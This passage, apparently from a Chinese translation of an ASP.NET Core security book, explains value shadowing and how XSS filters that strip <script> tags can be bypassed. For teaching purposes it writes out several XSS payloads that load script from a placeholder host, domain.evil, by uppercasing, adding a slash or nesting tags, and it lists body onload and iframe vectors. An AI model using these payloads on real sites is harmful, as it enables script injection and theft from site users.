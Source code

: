 ### XSS 和价值跟踪

在我继续用一些例子向您展示向页面添加 JavaScript 的不同方法之前，有一些关于最小化反射 XSS 攻击的潜在损害的东西值得一提。当你不允许*值隐藏*时，反射 XSS 更难被利用。值隐藏是允许输入来自多个位置的术语。这在 ASP.NET 框架中很常见，因为您可以通过简单地使用`Request["VALUE_NAME"]`来使用`Request`对象查找值。这样的查询会以表单、查询字符串和 cookies(可能还有更多源)的形式出现。换句话说，如果我有一个表单，它容易受到带有两个字段“用户名”和“密码”的值隐藏的影响，那么攻击者就可以将这两个值放在查询字符串中，并完全绕过表单。

为什么值隐藏使得反射 XSS 更容易被利用？因为这允许攻击者通过点击查询字符串中而不是表单中的信息的链接来欺骗用户，从而提交他们想要的任何信息，这反过来使得像网络钓鱼和鱼叉式网络钓鱼这样的攻击更容易得逞。阻止值隐藏可以防止这种情况发生。我们将在后面讨论更多的细节，但是 ASP.NET 核心已经使开发者更难，但不是不可能，意外地放入值隐藏漏洞。

现在，为了加深您对 XSS 的理解，让我们深入了解攻击者可以在您的页面上执行他们自己的 JavaScript 的方法。

### 绕过 XSS 的防御

我将在本书的后面部分讨论 ASP.NET 核心特有的防御 XSS 的方法。然而，就目前而言，为了更好地了解不同类型的 XSS 攻击的工作原理，有必要了解执行 XSS 攻击的不同方法，包括避开常见防御的方法。

#### 绕过脚本标签过滤

开发人员试图阻止 XSS 攻击的一个常用方法是从用户的任何输入中删除所有的

```
content = content.Replace("<script>", "");

Listing 5-16Replacing a script tag from text to try to prevent XSS

```

有几个有效载荷可以让你执行 XSS 攻击，绕过这种防御，但最简单的是简单地使标签大写，就像这样:`<SCRIPT SRC="` [`http://domain.evil/evil.js`](http://domain.evil/evil.js) `"></SCRIPT>`。

让辩护变得敏感是相当简单的。你所需要做的就是使用一个正则表达式，如清单 [5-17](#PC17) 所示。

```
content = Regex.Replace(content, "<script>", "", ↲
                        RegexOptions.IgnoreCase);

Listing 5-17Case-insensitive removal of all <script> tags

```

有许多方法可以解决这个问题，包括在标签的结束括号前添加一个空格。但是你也可以加一个斜线，像这样:`<script/data="x" src="` [`http://domain.evil/evil.js`](http://domain.evil/evil.js) `"></script>`。或者，您可以嵌入脚本标签，就像这样:`<scr<script>ipt src="` [`http://domain.evil/evil.js`](http://domain.evil/evil.js) `"</script>,`这将允许黑客添加他们自己的脚本，因为内部的`<script>`标签将被`Regex.Replace`语句删除，而外部的`<script>`标签保持不变。

简而言之，如果您绝对需要使用正则表达式来防止 XSS，您将需要考虑许多边缘情况，否则黑客几乎肯定会找到绕过您的防御的方法。

##### Img 标签、Iframes 和其他元素

正如我前面提到的，如果您设法成功地从任何用户输入中删除了所有的

其他几个标签有 onload、onerror 或其他一些无需用户交互就能触发的事件。(如果您想包含需要用户交互的脚本，比如支持“onmouseover”的脚本，还可以添加更多的脚本。)以下是漏洞自助中包含的一些漏洞:

*   **<主体>** :有一个“onload”标签。是的，出于某种原因，浏览器会支持嵌套的 body 标签。

*   **<iframe>**:“src”属性可以用来加载任意脚本，绕过大多数防御。更多详情请见下文。
